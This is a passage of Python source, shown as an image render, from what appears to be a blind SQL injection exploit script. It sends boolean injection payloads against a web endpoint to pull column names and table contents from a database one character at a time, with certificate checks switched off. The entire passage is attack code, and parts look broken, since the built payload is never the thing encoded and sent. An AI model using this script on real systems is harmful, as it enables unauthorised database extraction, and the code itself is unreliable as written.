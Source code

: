 ```python
        if response_data == "EMPTY":
            break
        lenght_colums+=1
    print(lenght_colums)
    #GET COLUMNS 
    columns_string=""
    for i in range(1,lenght_colums+1):
        for char in list_wordlist:
            payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT(COLUMN_NAME)) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '{table_child}'), {i}, 1) = '{char}') ; ##"
            encoded_data = base64.b64encode(dataClear.encode()).decode()
            data = {
                "data": encoded_data
            }
            json_data = json.dumps(data)

            response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
            response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
            response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
            response_data = json.loads(response_result.text)
            print(payload)
            if response_data == "EMPTY":
                columns_string+=char
                break
    columns = columns_string.split(",")
    print(f"columns is {columns}")
    #GET LENGHT CONTENT
    lenght_content_table=0
    while True:
        payload = f"users 123' OR (SELECT LENGTH(GROUP_CONCAT({columns[0]})) FROM {table_child}) = {lenght_content_table} ; ##"
        encoded_data = base64.b64encode(dataClear.encode()).decode()
        data = {
            "data": encoded_data
        }
        json_data = json.dumps(data)

        response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
        response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
        response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
        response_data = json.loads(response_result.text)
        print(payload)
        if response_data == "EMPTY":
            break
        lenght_content_table+=1
    print(lenght_content_table)
    #GET CONTENT TABLE
    table_string_content=""
    for i in range(1,lenght_content_table+1):
        for char in list_wordlist:
            payload = f"users 123' OR (SELECT SUBSTRING((SELECT (GROUP_CONCAT({columns[0]})) FROM {table_child}), {i}, 1) = '{char}') ; ##"
            encoded_data = base64.b64encode(dataClear.encode()).decode()
            data = {
                "data": encoded_data
            }
            json_data = json.dumps(data)
```